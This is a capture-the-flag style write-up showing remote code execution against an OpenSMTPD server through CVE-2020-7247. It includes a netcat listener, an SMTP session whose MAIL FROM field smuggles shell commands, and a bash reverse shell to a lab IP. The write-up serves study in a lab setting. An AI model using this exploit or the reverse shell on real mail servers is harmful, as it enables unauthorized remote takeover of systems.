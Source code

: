 ```
...[snip]...
```

## OpenSMTP

Connecting to the port we see that it is OpenSMTP. Looking around for public exploits on OpenSMTP, we find this promising looking PoC for [CVE-2020-7247](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt). We use it with a different payload to gain remote code execution and a reverse shell on the SMTP server.

First we stand up our listener on the port we want to recieve the shell.

```
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

We then send the PoC from qualys using the earlier found email address for the administrator. This works by bypassing the whitelist in the `smtp_mailaddr()` function. If the local name of the mail address is invalid and the domain part empty at the same time , we can bascially pass commands to the `mda_unpriv()` function with fewer restrictions. Some characters are however still blocked and there is a length restriction. 
To also bypass this restrictions, we use a loop to strip the `14` header lines, prepended by the server, via a call of read. The body then get's passed over to sh and we achieve RCE and in this case a reverse shell.

```
$ proxychains nc 10.241.251.113 25
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
220 smtp.realcorp.htb ESMTP OpenSMTPD
HELO smile
250 smtp.realcorp.htb Hello smile [10.241.251.1], pleased to meet you
MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
250 2.0.0 Ok
RCPT TO:<j.nakazawa@realcorp.htb>
250 2.1.5 Destination address valid: Recipient ok
DATA
354 Enter mail, end with "." on a line by itself

#0
#1
#2
#3
#4
#5
#6
#7
#8
#9
#a
#b
#c
#d
bash -c 'bash -i >& /dev/tcp/10.10.14.86/7575 0>&1'
.
250 2.0.0 e75c1fe0 Message accepted for delivery

```
